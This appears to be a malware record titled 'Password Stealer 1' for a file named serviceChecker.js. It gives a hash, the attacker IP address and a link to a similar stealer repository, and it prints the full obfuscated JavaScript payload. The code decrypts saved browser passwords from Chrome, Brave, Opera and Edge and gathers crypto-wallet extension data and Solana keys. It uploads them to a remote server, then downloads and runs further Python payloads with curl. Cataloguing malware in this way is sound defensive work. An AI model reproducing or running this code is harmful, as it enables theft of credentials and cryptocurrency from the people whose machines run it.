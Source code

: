 <h1>Info for Password Stealer 1</h1>

<h3>Original filename:</h3> serviceChecker.js
<h3>SHA-256:</h3> 7f8bb754f84a06b3e3617dd1138f07a918d11717cc63acaef8eb5c6d10101377

Malicious code:
Object.prototype.hasOwnProperty,Object.prototype.toString,Object.defineProperty,Object.getOwnPropertyDescriptor;!function t(c,r){if(c===r)return!0;if(c&&r&&"object"==typeof c&&"object"==typeof r){if(c.constructor!==r.constructor)return!1;var e,a,n;if(Array.isArray(c)){if((e=c.length)!=r.length)return!1;for(a=e;0!=a--;)if(!t(c[a],r[a]))return!1;return!0}if(c.constructor===RegExp)return c.source===r.source&&c.flags===r.flags;if(c.valueOf!==Object.prototype.valueOf)return c.valueOf()===r.valueOf();if(c.toString!==Object.prototype.toString)return c.toString()===r.toString();if((e=(n=Object.keys(c)).length)!==Object.keys(r).length)return!1;for(a=e;0!=a--;)if(!Object.prototype.hasOwnProperty.call(r,n[a]))return!1;for(a=e;0!=a--;){var l=n[a];if(!t(c[l],r[l]))return!1}return!0}return c!=c&&r!=r}(0,0);const t="base64",c="utf8",r=r=>(s1=r.slice(1),Buffer.from(s1,t).toString(c)),e=r("dc3FsaXRlMw"),a=r("aY2hpbGRfcHJvY2Vzcw"),n=r("aY3J5cHRv"),l=r("cZXhlYw"),o=r("YcmVxdWVzdA"),i=r("zcGF0aA"),s=r("YcGxhdGZvcm0"),m=r("cdG1wZGly"),b=r("ZaG9tZWRpcg"),u=r("caG9zdG5hbWU"),Z=r("AdHlwZQ"),$=require("fs"),h=require("os"),y=require(e),G=require(i),Y=require(o),d=require(n),f=require(a)[l],W=h[u](),v=h[s](),p=h[b](),V=h[m](),w=h[Z]();let j;const R=r=>Buffer.from(r,t).toString(c),g=(()=>{let t="NDUuNjEuMTaHR0cDovLwYwLjE0OjEyMjQ=      ";for(var c="",r="",e="",a="",n=0;n<10;n++)c+=t[n],r+=t[10+n],e+=t[20+n],a+=t[30+n];return c=c+e+a,R(r)+R(c)})(),X=R("ZGlybmFtZQ"),L=t=>t.replace(/^~([a-z]+|\/)/,((t,c)=>"/"===c?p:`${G[X](p)}/${c}`)),U="dGVhbTE1",F="Z2V0",J="d3JpdGVGaWxlU3luYw",E="L2NsaWVudA",N=R("Ly5ucGw"),B=R(E),S=R(J),k=R(F),z=R("ZXhpc3RzU3luYw"),Q="L3N0b3JlLm5vZGU",x=R("YWNjZXNzU3luYw");function O(t){try{return $[x](t),!0}catch(t){return!1}}const T=R("RGVmYXVsdA"),q=R("UHJvZmlsZQ"),A=R("L0FwcERhdGEvTG9jYWwvTWljcm9zb2Z0L0VkZ2UvVXNlciBEYXRh"),C=(t,c)=>{result="";try{const r=`${t}`,e=require(`${p}${R(Q)}`);if(w!=R("V2luZG93c19OVA"))return;const a=R("U0VMRUNUICogRlJPTSBsb2dpbnM"),n=`${L("~/")}${c}`;let l=G.join(n,R("TG9jYWwgU3RhdGU"));const o=R("YWVzLTI1Ni1nY20"),i=R("b3JpZ2luX3VybA"),s=R("dXNlcm5hbWVfdmFsdWU"),m=R("cGFzc3dvcmRfdmFsdWU"),b=R("Q3J5cHRVbnByb3RlY3REYXRh"),u=R("Y3JlYXRlRGVjaXBoZXJpdg"),Z=R("cmVhZEZpbGU"),h=R("Y29weUZpbGU"),Y=R("TG9naW4gRGF0YQ"),f=R("b3NfY3J5cHQ"),W=R("ZW5jcnlwdGVkX2tleQ"),v=R("RGF0YWJhc2U"),V=R("bGF0aW4x"),j=R("VTog"),g=R("Vzog"),X=R("UDog"),U=R("dW5saW5r");$[Z](l,R("dXRmLTg"),((t,c)=>{if(!t){mkey=JSON.parse(c),mkey=mkey[f][W],mkey=(t=>{var c=atob(t),r=new Uint8Array(c.length);for(let t=0;t<c.length;t++)r[t]=c.charCodeAt(t);return r})(mkey);try{const t=e[b](mkey.slice(5));for(ii=0;ii<=200;ii++){const c=0===ii?T:`${q} ${ii}`,e=`${n}/${c}/${Y}`,l=`${n}/t${c}`;if(!O(e))continue;const b=`${r}_${ii}_${q}`;$[h](e,l,(c=>{try{const c=new y[v](l);c.all(a,((r,e)=>{var a="";r||e.forEach((c=>{var r=c[i],e=c[s],n=c[m];try{"v"===n.subarray(0,1).toString()&&(iv=n.subarray(3,15),cip=n.subarray(15,n.length-16),cip.length&&(mmm=d[u](o,t,iv).update(cip),a=`${a}${g}${r} ${j} ${e} ${X}${mmm.toString(V)}\n\n`))}catch(t){}})),c.close(),$[U](l,(t=>{})),ht(b,a)}))}catch(t){}}))}}catch(t){}}}))}catch(t){}},H=r("aZmlsZW5hbWU"),M=r("YbXVsdGlfZmlsZQ"),I=r("cZm9ybURhdGE"),P=r("adXJs"),D=r("Zb3B0aW9ucw"),_=r("YdmFsdWU"),K=R("cmVhZGRpclN5bmM"),tt=R("c3RhdFN5bmM"),ct=(R("aXNEaXJlY3Rvcnk"),R("cG9zdA")),rt=[[R("L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC9Hb29nbGUvQ2hyb21l"),R("Ly5jb25maWcvZ29vZ2xlLWNocm9tZQ"),R("L0FwcERhdGEvTG9jYWwvR29vZ2xlL0Nocm9tZS9Vc2VyIERhdGE")],[R("L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC9CcmF2ZVNvZnR3YXJlL0JyYXZlLUJyb3dzZXI"),R("Ly5jb25maWcvQnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2Vy"),R("L0FwcERhdGEvTG9jYWwvQnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2VyL1VzZXIgRGF0YQ")],[R("L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC9jb20ub3BlcmFzb2Z0d2FyZS5PcGVyYQ"),R("Ly5jb25maWcvb3BlcmE"),R("L0FwcERhdGEvUm9hbWluZy9PcGVyYSBTb2Z0d2FyZS9PcGVyYSBTdGFibGUvVXNlciBEYXRh")]],et=R("TG9jYWwgRXh0ZW5zaW9uIFNldHRpbmdz"),at=R("LmxkYg"),nt=R("LmxvZw"),lt=R("c29sYW5hX2lkLnR4dA");let ot="comp";const it=["bmtiaWhmYmVvZ2FlYW9laGxlZm5rb2RiZWZncGdrbm4","aWJuZWpkZmptbWtwY25scGVia2xtbmtvZW9paG9mZWM","ZWpiYWxiYWtvcGxjaGxnaGVjZGFsbWVlZWFqbmltaG0","Zmhib2hpbWFlbGJvaHBqYmJsZGNuZ2NuYXBuZG9kanA","YmZuYWVsbW9tZWltaGxwbWdqbmpvcGhocGtrb2xqcGE","aG5mYW5rbm9jZmVvZmJkZGdjaWpubWhuZm5rZG5hYWQ","Zm5qaG1raGhta2Jqa2thYm5kY25ub2dhZ29nYm5lZWM","YWVhY2hrbm1lZnBoZXBjY2lvbmJvb2hja29ub2VlbWc","aGlmYWZnbWNjZHBla3Bsb21qamtjZmdvZG5oY2VsbGo"],st=R("Y3JlYXRlUmVhZFN0cmVhbQ"),mt=R("L3VwbG9hZHM"),bt=async(t,c,r)=>{let e=t;if(!e||""===e)return[];try{if(!O(e))return[]}catch(t){return[]}c||(c="");let a=[];for(let r=0;r<200;r++){const n=`${t}/${0===r?T:`${q} ${r}`}/${et}`;for(let t=0;t<it.length;t++){const l=R(it[t]);let o=`${n}/${l}`;if(O(o)){try{far=$[K](o)}catch(t){far=[]}far.forEach((async t=>{e=G.join(o,t);try{(e.includes(at)||e.includes(nt))&&a.push({[_]:$[st](e),[D]:{[H]:`${c}${r}_${l}_${t}`}})}catch(t){}}))}}}if(r&&(e=`${p}${R("Ly5jb25maWcvc29sYW5hL2lkLmpzb24")}`,$[z](e)))try{a.push({[_]:$[st](e),[D]:{[H]:lt}})}catch(t){}const n={timestamp:j.toString(),type:U,hid:ot,[M]:a};try{const t={[P]:`${g}${mt}`,[I]:n};Y[ct](t,((t,c,r)=>{}))}catch(t){}return a},ut=()=>{try{rt.forEach(((t,c)=>{C(c,t[2])})),C(3,A)}catch(t){}},Zt=R("L2tleXM"),$t=R("cHl0aG9u"),ht=async(t,c)=>{const r={ts:j.toString(),type:U,hid:ot,ss:t,cc:c.toString()},e={[P]:`${g}${Zt}`,[I]:r};try{Y[ct](e,((t,c,r)=>{}))}catch(t){}},yt=R("cC56aQ"),Gt=R("L3Bkb3du"),Yt=R("cmVuYW1lU3luYw"),dt=R("cmVuYW1l"),ft=R("cm1TeW5j"),Wt=R("dGFyIC14Zg"),vt=R("Y3VybCAtTG8"),pt=R("XC5weXBccHl0aG9uLmV4ZQ"),Vt=51476596;let wt=0;const jt=async t=>{f(`${Wt} ${t} -C ${p}`,((c,r,e)=>{if(c)return $[ft](t),void(wt=0);$[ft](t),Lt()}))},Rt=()=>{const t=R("cDIuemlw"),c=`${g}${Gt}`,r=`${V}\\${yt}`,e=`${V}\\${t}`;if(!(wt>=Vt))if($[z](r))try{var a=$[tt](r);a.size>=Vt?(wt=a.size,$[dt](r,e,(t=>{if(t)throw t;jt(e)}))):(wt<a.size?wt=a.size:($[ft](r),wt=0),gt())}catch(t){}else{f(`${vt} "${r}" "${c}"`,((t,c,a)=>{if(t)return wt=0,void gt();try{wt=Vt,$[Yt](r,e),jt(e)}catch(t){}}))}};function gt(){setTimeout((()=>{Rt()}),2e4)}const Xt=async()=>{var t=process.version.match(/^v(\d+\.\d+)/)[1];const c=`${g}${R("L25vZGUv")}${t}`,r=`${p}${R(Q)}`;if($[z](r))ut();else{f(`${vt} "${r}" "${c}"`,((t,c,r)=>{ut()}))}},Lt=async()=>await new Promise(((t,c)=>{if("w"==v[0]){const t=`${p}${pt}`;$[z](`${t}`)?(()=>{const t=`${g}${B}/${U}`,c=`${p}${N}`,r=`"${p}${pt}" "${c}"`;try{$[ft](c)}catch(t){}Y[k](t,((t,e,a)=>{try{$[S](c,a),f(r,((t,c,r)=>{t&&Xt()}))}catch(t){Xt()}}))})():(Xt(),Rt())}else(()=>{const t=R(E),c=R(J),r=R(F),e=`${g}${t}/${U}`,a=`${p}${N}`;let n=`${$t}3 "${a}"`;Y[r](e,((t,r,e)=>{$[c](a,e),f(n,((t,c,r)=>{}))}))})()}));var Ut=0;const Ft=async()=>{try{j=Date.now(),await(async()=>{ot=W;try{const t=L("~/");rt.forEach((async(c,r)=>{let e="";e="d"==v[0]?`${t}${c[0]}`:"l"==v[0]?`${t}${c[1]}`:`${t}${c[2]}`,await bt(e,`${r}_`,0==r)})),"w"==v[0]&&(pa=`${t}${A}`,await bt(pa,"3_",!1))}catch(t){}})(),Lt()}catch(t){}};Ft();let Jt=setInterval((()=>{(Ut+=1)<5?Ft():clearInterval(Jt)}),6e5);module.exports=Ft;

IP:
45.61.160.14

Similar malware repo: https://github.com/henry-richard7/Browser-password-stealer

